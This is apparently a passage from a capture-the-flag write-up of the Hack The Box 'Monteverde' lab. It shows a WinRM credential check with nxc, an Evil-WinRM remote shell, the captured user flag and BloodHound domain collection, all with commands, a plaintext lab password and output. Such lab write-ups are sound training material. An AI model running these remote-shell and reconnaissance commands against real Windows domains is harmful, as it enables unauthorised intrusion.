 ```bash
nxc winrm  10.129.228.111 -u 'mhope' -p '4n0therD4y@n0th3r$' 
WINRM       10.129.228.111  5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.129.228.111  5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```

A remote shell was established on Monteverde using Evil-WinRM with the credentials for the user mhope.
```bash
evil-winrm -i 10.129.228.111 -u mhope -p 4n0therD4y@n0th3r$  
```

The user flag was retrieved from the mhope user's desktop. The flag is 8cb8a3137615f9596c2d0eaa8890f664.

```bash
*Evil-WinRM* PS C:\Users\mhope\desktop> type user.txt
8cb8a3137615f9596c2d0eaa8890f664

```

BloodHound data was collected from the domain using the mhope credentials. The collection included all available information and was saved in a compressed archive.

```bash
bloodhound-python -u 'mhope' -p '4n0therD4y@n0th3r$' -d 'MEGABANK.LOCAL' -c All -ns 10.129.228.111 -v --zip
```

The user mhope has the CanPSRemote privilege, which allows PowerShell Remoting, on the host MONTEVERDE.MEGABANK.LOCAL.

![BloodHound Analysis](images/montervade1.png)
